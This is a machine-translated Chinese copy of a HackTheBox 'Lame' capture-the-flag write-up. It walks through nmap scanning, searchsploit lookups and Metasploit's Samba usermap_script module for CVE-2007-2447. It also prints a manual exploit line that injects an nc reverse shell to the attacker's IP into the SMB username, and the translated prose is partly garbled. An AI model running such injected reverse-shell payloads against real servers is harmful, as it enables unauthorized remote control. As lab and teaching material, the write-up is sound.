









# 黑客盒子评论——蹩脚

> 原文：<https://infosecwriteups.com/htb-lame-writeup-e47100aea88b?source=collection_archive---------0----------------------->

*这是从*[*HackTheBox*](https://www.hackthebox.eu/)*中写出的机器* [*瘸腿*](https://www.hackthebox.eu/home/machines/profile/1) *。*



机器地图

# 摘要

Lame 是基于 Linux 平台的初学者友好型机器。这是 HTB 的第一台机器。利用 samba 用户名映射脚本漏洞获取用户和根用户。

> 机器作者:[ch4p](https://www.hackthebox.eu/home/users/profile/1)机器类型:Linux
> 机器级别:2.7/10

# 专有技术

*   Nmap
*   Searchsploit

# 吸收技能

*   [CVE-2007–2447](http://cvedetails.com/cve/cve-2007-2447)
*   Samba“用户名映射脚本”命令执行

# 扫描网络

```
$nmap -sC -sV 10.10.10.3
```


man nmap



nmap 结果

# 易受攻击的 Ftp

```
searchsploit vsftpd 2.3.4
```



searchsploit ftp

我试图执行漏洞，但每次都失败了:(

# 脆弱的桑巴

当使用非默认的“用户名映射脚本”配置选项时，此模块利用了 Samba 版本 3.0.20 到 3.0.25rc3 中的命令执行漏洞。通过指定包含 shell mmeta 字符的用户名，攻击者可以执行任意命令。利用此漏洞不需要身份验证，因为此选项用于映射用户名 pbeforeauthentication！。

```
$searchsploit Samba 3.0.20
```



searchsploit 桑巴

# 利用服务器

```
msf5 >use exploit/multi/samba/usermap_scriptset RHOSTS 10.10.10.3
exploit
```



壳

# 没有 Metasploit 的手动利用

```
logon “./=`nohup nc -e /bin/bash 10.10.14.7 4444`"
```

*   登录:-用于登录 smb
*   nohup:-运行不受挂起影响的命令，输出到非 tty



# 自己的用户

用户 makis 拥有 user.txt



自己的用户

# 自己的根



自己的根



奖品

*感谢阅读！如果你喜欢这个故事，请点击**👏 ***按钮，分享*** *它来帮助别人！欢迎留言评论*💬*下图。有反馈？下面我们连线上* [*推特*](https://twitter.com/yashanand155) *。**

## *❤️由[增加到](https://twitter.com/yashanand155)*

*[](https://twitter.com/yashanand155) [## inc0gnito

### inc0gnito 的最新推文(@yashanand155)。CTF 玩家| | hack the box | | CTFs with @ ABS 0 lut 3 pwn 4g 3🚩||调制…

twitter.com](https://twitter.com/yashanand155)*